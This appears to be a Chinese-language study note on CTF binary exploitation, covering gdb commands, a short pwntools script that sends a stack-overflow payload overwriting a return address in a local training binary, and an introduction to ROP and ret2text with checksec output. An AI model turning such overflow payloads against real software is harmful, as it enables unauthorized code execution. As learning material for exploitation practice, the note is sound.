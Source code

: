 

星盟的视频中还提到了gdb的调试。

```shell
gdb hello

b main //在main函数上下断电
r      //运行
ni     //单步调试
fini   //跳出当前函数
s      //单步跟入
vmmap  //查看栈、bss段是否可以执行
```

pwntools也可以与gdb交互：

```python
from pwn import *

sh = process('./hello')

target = 0x804846B

payload = b'a'*20+b'feng'+p32(target)
gdb.attach(sh)
sh.sendline(payload)
sh.interactive()

```

# 基本ROP

随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

## ret2text

ret2text其实就是控制.text段（参考之前ELF文件格式中的.text）。

CTFWIKI的例题：https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text



首先看一下保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2text 
[*] '/home/feng/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
